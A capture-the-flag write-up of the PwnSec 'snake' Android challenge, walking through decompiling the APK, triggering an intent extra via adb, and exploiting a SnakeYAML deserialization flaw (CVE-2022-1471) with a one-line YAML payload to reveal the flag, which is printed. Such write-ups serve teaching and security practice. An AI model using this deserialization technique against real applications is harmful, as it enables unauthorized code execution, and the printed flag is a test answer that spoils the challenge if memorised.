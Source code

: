 **Description**: Make sure to run the mobile application on Android API 28 or less (Android 9 or less).
**Download content**: https://lautarovculic.com/my_files/snake.zip

![[pwnSec_snake1.png]]

Install the **apk** with **ADB**.
**NOTE**
Ill use an **AVD** (Android Virtual Device) *non-rooted* from the **Android Studio** SDK.
```bash
adb install -r snake.apk
```

The *UI app* doesn't have nothing interesting. But is good notice that the **app ask for us about storage permissions**.
In fact, the **`AndroidManifest.xml`** file have
```XML
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

Let's decompile the app with **apktool**
```bash
apktool d snake.apk
```
And inspect the **source code** with **jadx** (GUI version)
The **MainActivity** has multiple *root detection*, *frida detection* and *storage permissions*.

The unique interesting code in this activity is the `C()` method:
```java
public final void C() {
    Intent intent = getIntent();
    String stringExtra = intent.getStringExtra("SNAKE");
    
    if (intent.hasExtra("SNAKE") && stringExtra.equals("BigBoss")) {
        File file = new File(new File(Environment.getExternalStorageDirectory(), "snake"), "Skull_Face.yml");
        
        if (!file.exists()) {
            Log.e("YML File", "File not found: " + file.getAbsolutePath());
            return;
        }
        
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            try {
                e eVar = new e(0);
                Object f2 = eVar.f(fileInputStream);
                Log.d("Skull Face data: ", f2.toString());
                eVar.c(f2);
            } finally {
                fileInputStream.close();
            }
        } catch (IOException e2) {
            Log.e("YML File", "Error reading file: ", e2);
        }
    }
}
```

Also, we have the **BigBoss** class, which is
```java
package com.pwnsec.snake;  
  
import android.util.Log;  
  
public class BigBoss {  
    static {  
        System.loadLibrary("snake");  
    }  
  
    public BigBoss(String str) {  
        String stringFromJNI = stringFromJNI(str);  
        if (str.equals("Snaaaaaaaaaaaaaake")) {  
            Log.d("BigBoss: ", hexToAscii(stringFromJNI));  
        }  
    }  
  
    private String hexToAscii(String str) {  
        StringBuilder sb = new StringBuilder();  
        int i2 = 0;  
        while (i2 < str.length()) {  
            int i3 = i2 + 2;  
            sb.append((char) Integer.parseInt(str.substring(i2, i3), 16));  
            i2 = i3;  
        }  
        return sb.toString();  
    }  
  
    public native String stringFromJNI(String str);  
}
```

We have an **intent** that we can call with **`am`** (Activity Manager) tool from **adb**.
This specific code
```java
Intent intent = getIntent();
String stringExtra = intent.getStringExtra("SNAKE");

if (intent.hasExtra("SNAKE") && stringExtra.equals("BigBoss")) {
    File file = new File(new File(Environment.getExternalStorageDirectory(), "snake"), "Skull_Face.yml");
    
    if (!file.exists()) {
        Log.e("YML File", "File not found: " + file.getAbsolutePath());
        return;
    }
}
```
Is the *entry point*.
We can run the following command for *start the app* with the *extra strings*
```bash
adb shell am start -n com.pwnsec.snake/.MainActivity -e SNAKE BigBoss
```

In the *UI App* nothing change, but reading the code, if we run
```bash
adb logcat | grep "YML File"
```
We can notice that
```bash
12-10 00:01:08.258  9002  9002 E YML File: File not found: /storage/emulated/0/snake/Skull_Face.yml
```
The app expect a *file* called *`Skull_Face.yml`* in `/storage/emulated/0/snake/` directory.

Inspecting the **BigBoss** class, we can see that here's an **`SnakeYAML deserialization`**.
```java
public class BigBoss {  
    static {  
        System.loadLibrary("snake");  
    }  
  
    public BigBoss(String str) {  
        String stringFromJNI = stringFromJNI(str);  
        if (str.equals("Snaaaaaaaaaaaaaake")) {  
            Log.d("BigBoss: ", hexToAscii(stringFromJNI));  
        }  
    }  
  
    private String hexToAscii(String str) {  
        StringBuilder sb = new StringBuilder();  
        int i2 = 0;  
        while (i2 < str.length()) {  
            int i3 = i2 + 2;  
            sb.append((char) Integer.parseInt(str.substring(i2, i3), 16));  
            i2 = i3;  
        }  
        return sb.toString();  
    }  
  
    public native String stringFromJNI(String str);  
}
```

And, here's more information about this **CVE** (CVE-2022-1471)
https://www.veracode.com/blog/research/resolving-cve-2022-1471-snakeyaml-20-release-0

So, according to the article and vulnerability, we can use the following exploit:
```YML
!!com.pwnsec.snake.BigBoss ["Snaaaaaaaaaaaaaake"]
```
This content must be saved in the `Skull_Face.yml` file that the app search for, which is `/storage/emulated/0/snake/`

Create the *folder* and the *file*. Then, run again the app with **ADB** and the *extra strings*
```bash
adb shell am start -n com.pwnsec.snake/.MainActivity -e SNAKE BigBoss
```

Use **logcat** for see the flag
```bash
adb logcat | grep -i "PWNSEC"
```

Flag: **`PWNSEC{W3'r3_N0t_T00l5_0f_The_g0v3rnm3n7_0R_4ny0n3_3ls3}`**

I hope you found it useful (: